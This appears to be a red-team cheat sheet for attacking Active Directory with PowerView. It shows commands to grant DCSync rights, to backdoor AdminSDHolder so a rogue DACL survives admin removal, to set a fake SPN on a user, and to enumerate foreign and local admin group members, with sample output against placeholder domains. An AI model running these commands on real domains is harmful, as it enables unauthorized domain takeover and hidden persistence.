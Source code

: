 #### Assign rights (DCSync)

`Add-DomainObjectAcl` can be used to add a new ACL to a domain object. If we have access to a domain admin account, we can grant dcsync rights to any principal in the domain (a user, group or even computer).

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=edu,DC=evil,DC=corp" -PrincipalIdentity john -Rights DCSync
```

#### Assign rights (AdminSDHolder)

The AdminSDHolder itself is not protected so if we modify the DACL on it, those changes will be replicated to the subsequent objects. So even if an admin see's a rogue DACL on group such as the DA's and removes it, it will just be reapplied again.

```powershell
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=edu,DC=evil,DC=corp" -PrincipalIdentity john -Rights All
```

## [[Discretionary Access Control Lists (DACL)]] [[Change Domain Objects]]
#### Change DomainObject (SPN)

```powershell
Set-DomainObject -Identity jonas -Set @{serviceprincipalname="fake/NOTHING"}
```

## [[Domain Groups]]

### Get Groups containing users outside of this domain

```powershell
Get-DomainForeignGroupMember -Domain evil.external

GroupDomain             : evil.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=subsidiary,DC=external
MemberDomain            : evil.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=subsidiary,
                          DC=external
```

Get the group of the machine

```powershell
Get-NetLocalGroupMember -ComputerName ad.evil.external

ComputerName : ad.evil.external
GroupName    : Administrators
MemberName   : EDU\External Admins
IsGroup      : True
IsDomain     : True
```

